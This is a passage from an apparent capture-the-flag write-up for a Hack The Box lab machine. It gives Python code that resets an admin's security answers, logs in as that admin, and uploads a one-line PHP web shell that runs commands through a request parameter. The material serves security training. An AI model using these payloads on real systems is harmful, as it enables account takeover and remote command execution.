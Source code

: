 
The code itself, when invoked, doesn't actually show the contents, it just shows the file handle. It DOES tell us that we successfully opened a file though.

![alt text](../../../assets/images/ctf/events/season8-htb-25/2025-08-02-week11-era.md/2025-08-02-week11-era/images/image.png)

Let's automate some of this to make playing with the payload easier. 

Lets start by reseting our admin's security questions using the attacker session.


```python
payload = {
    'username': 'admin_ef01cab31aa',
    'new_answer1': 'aaaa',
    'new_answer2': 'aaaa',
    'new_answer3': 'aaaa',
}
reset_admin = file_session.post(f'http://file.{target}/reset.php', data=payload)
```

With the new security questions reset, we can now log in as admin_ef01cab31aa.


```python
payload = {
    'username': 'admin_ef01cab31aa',
    'answer1': 'aaaa',
    'answer2': 'aaaa',
    'answer3': 'aaaa',
}

admin_session = requests.Session()
login = admin_session.post(f'http://file.{target}/security_login.php', data=payload)
if "Login successful." in login.text:
    print("Successfully logged in as admin!")
else:
    print("Failed to log in as admin.")
print(admin_session.cookies.get_dict())
```

    Successfully logged in as admin!
    {'PHPSESSID': '95shliirm72gcsm1iifc0ckujd'}


And finally we can dynamically upload any file we want, and set the fileid for later so we can call it on the download endpoint.


```python
upload_file = {
    'fsubmitted': (None, 'true'),
    # Note that here is where we set the filename that will be saved on the remote system, as well as the contents of the file.
    'upfile[]': ('file2.php', '<?php echo system($_REQUEST["cmd"]); ?>', 'application/x-php')
}
upload = admin_session.post(f'http://file.{target}/upload.php', files=upload_file)
soup = BeautifulSoup(upload.text, 'html.parser')
download_link = soup.find('div', id='download-link')
if download_link:
    download_input = download_link.find('input', id='download-url')
    if download_input and download_input.has_attr('value'):
        download_url = download_input['value']
        print(f"Download URL: {download_url}")
        fileid = download_url.split('=')[-1]
```